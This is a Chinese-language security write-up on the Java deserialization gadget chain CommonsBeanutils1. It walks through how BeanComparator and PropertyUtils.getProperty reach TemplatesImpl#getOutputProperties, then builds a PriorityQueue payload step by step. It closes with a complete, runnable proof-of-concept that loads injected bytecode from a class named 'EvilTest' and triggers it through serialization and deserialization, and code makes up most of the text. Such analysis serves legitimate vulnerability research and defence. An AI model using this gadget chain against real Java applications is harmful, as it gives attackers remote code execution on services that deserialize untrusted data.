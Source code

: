 # [Java安全] CommonsBeanutils1利用链分析




# 前言

Apache Commons Beanutils 是 Apache Commons 工具集下的另一个项目，它提供了对普通Java类对象（也称为JavaBean）的一些操作方法

JavaBean就不多说了，搞过一点javaweb开发都知道的，commons-beanutils中提供了一个静态方法 `PropertyUtils.getProperty` ，让使用者可以直接调用任意JavaBean的getter方法，比如：

```java
PropertyUtils.getProperty(new Cat(), "name");
```



# CB链分析

CB链的触发是在`org.apache.commons.beanutils.BeanComparator`，是commons-beanutils提供的用来比较两个JavaBean是否相等的类，其实现了 java.util.Comparator 接口

我们看一下他的源码，如果property不为null，那么就会执行PropertyUtils.getProperty调用JavaBean的getter方法去获取值来执行internalCompare，跟进internalCompare，会执行compare方法

```java
    public int compare(T o1, T o2) {
        if (this.property == null) {
            return this.internalCompare(o1, o2);
        } else {
            try {
                Object value1 = PropertyUtils.getProperty(o1, this.property);
                Object value2 = PropertyUtils.getProperty(o2, this.property);
                return this.internalCompare(value1, value2);
            } catch (IllegalAccessException var5) {
                throw new RuntimeException("IllegalAccessException: " + var5.toString());
            } catch (InvocationTargetException var6) {
                throw new RuntimeException("InvocationTargetException: " + var6.toString());
            } catch (NoSuchMethodException var7) {
                throw new RuntimeException("NoSuchMethodException: " + var7.toString());
            }
        }
    }



    private int internalCompare(Object val1, Object val2) {
        Comparator c = this.comparator;
        return c.compare(val1, val2);
    }
```

而前面说了`PropertyUtils.getProperty`会自动执行JavaBean的getter方法，而我们的TemplatesImpl的利用链里面，我们之前一直说的是触发`TemplatesImpl#newTransformer()`，但是其实newTransformer上面还有一层：`TemplatesImpl#getOutputProperties()`

![](https://tuchuang.huamang.xyz/img/image-20221006171924771-20221006172100059.png)

这是符合JavaBean的getter的定义的，那么我们就可以连接上CC2链子了

# 利用链构造

首先是创建TemplatesImpl

```java
ClassPool pool = ClassPool.getDefault();
CtClass clazzz = pool.get("EvilTest");
byte[] code = clazzz.toBytecode();
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][]{code});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
```

然后创建BeanComparator和PriorityQueue，因为要把TemplatesImpl对象传入BeanComparator进行比较

所以得把emplatesImpl对象传入传入PriorityQueue的queue

把BeanComparator传入PriorityQueue的comparator

![image-20221006174826308](https://tuchuang.huamang.xyz/img/image-20221006174826308.png)

然后就是CB的核心点，我们得把property传值为`outputProperties`，这样调用getProperty就会触发到`TemplatesImpl#getOutputProperties()`进入到利用链

![image-20221006175351339](https://tuchuang.huamang.xyz/img/image-20221006175351339.png)

```java
BeanComparator comparator = new BeanComparator();
PriorityQueue queue = new PriorityQueue(2, comparator);
// stub data for replacement later
queue.add(1);
queue.add(1);
setFieldValue(comparator, "property", "outputProperties");
setFieldValue(queue, "queue", new Object[]{obj, obj});
```

到这里CB链就构造完成了，下面就可以序列化PriorityQueue对象了

最后的POC

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue(2, comparator);
        // stub data for replacement later
        queue.add(1);
        queue.add(1);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```


